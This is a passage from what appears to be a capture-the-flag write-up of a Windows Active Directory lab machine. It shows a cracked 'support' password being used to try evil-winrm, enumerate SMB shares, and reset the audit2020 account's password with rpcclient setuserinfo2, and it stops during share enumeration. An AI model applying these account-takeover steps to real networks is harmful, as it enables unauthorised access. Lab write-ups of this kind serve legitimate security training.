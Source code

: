 Cracked!
```
support  ::  #00^BlackKnight
```
Unfortunately, the support user is not part of the 'Remote Management' group, so we cannot log in with evil-winrm.
```
root@crab:~# evil-winrm -i 10.10.10.192 -p '#00^BlackKnight' -u support
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```
Checking SMB, we have some new shares that are readable.
```
root@crab:~# smbmap -H 10.10.10.192 -u 'support' -p '#00^BlackKnight'
[+] IP: 10.10.10.192:445        Name: 10.10.10.192                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        profiles$                                               READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```
Nothing too interesting. <br>
Knowing that this is a support account, it is most likely able to reset user passwords. I know rpcclient has an option for that.
## rpcclient
Logging in with the support account on rpcclient, we can use the setuserinfo2 command to reset an accounts password. The syntax can be found <a href="https://malicious.link/post/2017/reset-ad-user-password-with-linux/" target="\_blank">here</a>. <br>
Which account shall we reset is the question. Looking at the SMB shares again, notice the 'forensic' share comment says it's 'Audit share'. Lets grep the user list for the word audit.
```
root@crab:~# grep audit userlist.txt
audit2020
```
That's probably it. If it isn't, I'm sure the Administrator doesn't mind us resetting another user password.
```
root@crab:~# rpcclient -U support 10.10.10.192
Enter support's password:
rpcclient $> setuserinfo2 audit2020 23 'password1234!@'
rpcclient $>
```
No errors, let's test it out. First things first, evil-winrm.
```
root@crab:~# evil-winrm -i 10.10.10.192 -u audit2020 -p 'password1234!@'

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
```
No luck, let's check what SMB shares are available now.
```
root@crab:~# smbmap -H 10.10.10.192 -u audit2020 -p 'password1234!@'
[+] IP: 10.10.10.192:445        Name: 10.10.10.192                                      
        Disk                                                    Permissions     Comment
```